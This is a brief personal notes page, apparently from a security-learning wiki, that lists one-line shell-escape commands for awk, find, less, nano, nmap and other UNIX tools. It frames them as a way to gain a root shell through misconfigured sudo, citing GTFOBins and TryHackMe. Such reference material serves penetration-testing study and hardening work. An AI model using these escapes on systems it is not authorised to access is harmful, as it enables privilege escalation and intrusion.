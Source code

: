 # Shell Escapes

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via [sudo](enumerate-sudo-access.md).

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — see [Set a Shell in ViM](set-a-shell-in-vim.md)

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)

- - - -

👤 Nathan Acks  
📅 October 31, 2021

